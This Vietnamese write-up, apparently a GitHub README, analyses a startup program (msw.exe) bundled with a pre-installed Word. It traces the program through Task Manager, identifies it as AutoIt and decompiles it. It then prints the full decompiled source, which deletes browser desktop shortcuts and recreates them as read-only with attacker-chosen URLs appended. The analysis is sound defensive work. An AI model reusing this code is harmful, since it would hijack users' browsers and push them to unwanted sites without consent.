




# Script tự động tạo shortcut trình duyệt
> Dính script này khi cài word có sẵn, khi khởi động máy shortcut các trình duyệt có trong máy sẽ tự động được tạo ngoài màn hình. Các shortcut này có các params phía sau để tự động mở các đường dẫn

## Nội dung
* [Tình trạng](#tinh-trang)
* [Đi theo dấu chân](#di-theo-dau-chan)
* [Phân tích bằng Detect It Easy và decode](#phan-tich-bang-detect-it-easy-va-decode)
* [Source code](#source-code)

## Tình trạng
Khi khởi động lại máy các shortcut của trình duyệt sẽ tự động được tạo ngoài màn hình, nhấp vào các shortcut này trình duyệt sẽ tự động mở các đường dẫn mà attacker đã thêm vào script
Khi xem properties của các shortcut này thì thấy có các params phía sau là đường dẫn các trang web. Đây là một thủ thuật rất hay.



## Đi theo dấu chân
Vì các shortcut sẽ tự động được tạo mỗi khi khởi động lại máy nên nghi ngờ nhất là các chương trình nằm trong mục startup của windows.
Ta sẽ dò phần startup này trong task manager.



Trong task manager nhận thấy có msw.exe là đáng nghi ngờ nhất nên sẽ mở nó thử.
Sau khi xóa hết các shortcut và chạy thủ công file msw.exe thì các shortcut tự động được tạo ra màn hình nên chắc chắn 100% là nó là cái ta đang tìm.

## Phân tích bằng Detect It Easy và decode
Dùng Detect It Easy thì thấy nó được viết bằng AutoIt.



Với AutoIt ta có tool để decode là exe2auto.



## Source code
Có thể cài [AutoIt](https://www.autoitscript.com/site/) để thử
```au3
    $file_name_1 = "*Chrome*"
    $file_name_2 = "*Cốc*"
    $file_name_3 = "*Firefox*"
    $file_name_4 = "*Coc*"
    $file_name_5 = "*browser*"
    FileSetAttrib(@DesktopDir & "\" & $file_name_1 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_1 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_1 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_1 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_2 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_2 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_2 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_2 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_3 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_3 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_3 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_3 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_4 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_4 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_4 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_4 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_5 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_5 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_5 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_5 & ".lnk")
    Sleep(250)
    ifileexists_chrome()
    ifileexists_coccoc()
    ifileexists_firefox()

    Func ifileexists_chrome()
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files\Google\Chrome\Application\chrome.exe")
        If $ifileexists Then
            example_chrome()
        EndIf
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files (x86)\Google\Chrome\Application\chrome.exe")
        If $ifileexists Then
            example_chrome_x86()
        EndIf
    EndFunc

    Func ifileexists_coccoc()
        Local $ifileexists = FileExists(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe")
        If $ifileexists Then
            example_coccoc()
        EndIf
        Local $ifileexists = FileExists(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser_proxy.exe")
        If $ifileexists Then
            example_coccoc_proxy()
        EndIf
    EndFunc

    Func ifileexists_firefox()
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files\Mozilla Firefox\firefox.exe")
        If $ifileexists Then
            example_firefox()
        EndIf
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files (x86)\Mozilla Firefox\firefox.exe")
        If $ifileexists Then
            example_firefox_x86()
        EndIf
    EndFunc

    Func example_chrome()
        Local Const $sfilepath = @DesktopDir & "\Google Chrome.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files\Google\Chrome\Application\chrome.exe", $sfilepath, @HomeDrive & "\Program Files\Google\Chrome\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Google Chrome", @HomeDrive & "\Program Files\Google\Chrome\Application\chrome.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_chrome_x86()
        Local Const $sfilepath = @DesktopDir & "\Google Chrome.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files (x86)\Google\Chrome\Application\chrome.exe", $sfilepath, @HomeDrive & "\Program Files (x86)\Google\Chrome\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Google Chrome", @HomeDrive & "\Program Files (x86)\Google\Chrome\Application\chrome.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_coccoc()
        Local Const $sfilepath = @DesktopDir & "\Cốc Cốc.lnk"
        FileCreateShortcut(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe", $sfilepath, @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Cốc Cốc", @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_coccoc_proxy()
        Local Const $sfilepath = @DesktopDir & "\Cốc Cốc.lnk"
        FileCreateShortcut(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser_proxy.exe", $sfilepath, @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Cốc Cốc", @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_firefox()
        Local Const $sfilepath = @DesktopDir & "\Firefox.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files\Mozilla Firefox\firefox.exe", $sfilepath, @HomeDrive & "\Program Files\Mozilla Firefox", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Firefox", @HomeDrive & "\Program Files\Mozilla Firefox\firefox.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_firefox_x86()
        Local Const $sfilepath = @DesktopDir & "\Firefox.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files (x86)\Mozilla Firefox\firefox.exe", $sfilepath, @HomeDrive & "\Program Files (x86)\Mozilla Firefox", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Firefox", @HomeDrive & "\Program Files (x86)\Mozilla Firefox\firefox.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Sleep(50)
    FileSetAttrib(@DesktopDir & "\Google Chrome.lnk", "+R")
    Sleep(50)
    FileSetAttrib(@DesktopDir & "\Cốc Cốc.lnk", "+R")
    Sleep(50)
    FileSetAttrib(@DesktopDir & "\Firefox.lnk", "+R")
```

## Tác giả
Created by [iotlab.dev](https://iotlab.dev/) with :heartpulse:!
